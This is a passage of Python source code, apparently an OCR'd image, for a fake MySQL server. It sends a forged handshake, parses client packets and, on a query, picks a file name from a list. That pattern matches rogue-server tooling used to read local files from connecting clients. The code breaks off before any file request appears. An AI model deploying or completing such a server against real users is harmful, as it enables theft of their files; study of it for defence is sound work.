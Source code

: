 ```python

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '5.6.28-0ubuntu0.14.04.1' + '\0',
                    '\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00',
                ))            )
        )

        self.order = 1
        self.states = ['LOGIN', 'CAPS', 'ANY']

    def push(self, data):
        log.debug('Pushed: %r', data)
        data = str(data)
        asynchat.async_chat.push(self, data)

    def collect_incoming_data(self, data):
        log.debug('Data recved: %r', data)
        self.ibuffer.append(data)

    def found_terminator(self):
        data = "".join(self.ibuffer)
        self.ibuffer = []

        if self.state == 'LEN':
            len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
            if len_bytes < 65536:
                self.set_terminator(len_bytes)
                self.state = 'Data'
            else:
                self.state = 'MoreLength'
        elif self.state == 'MoreLength':
            if data[0] != '\0':
                self.push(None)
                self.close_when_done()
            else:
                self.state = 'Data'
        elif self.state == 'Data':
            packet = mysql_packet.parse(data)
            try:
                if self.order != packet.packet_num:
                    raise OutOfOrder()
                else:
                    # Fix ?
                    self.order = packet.packet_num + 2
                if packet.packet_num == 0:
                    if packet.payload[0] == '\x03':
                        log.info('Query')

                        filename = random.choice(filelist)
```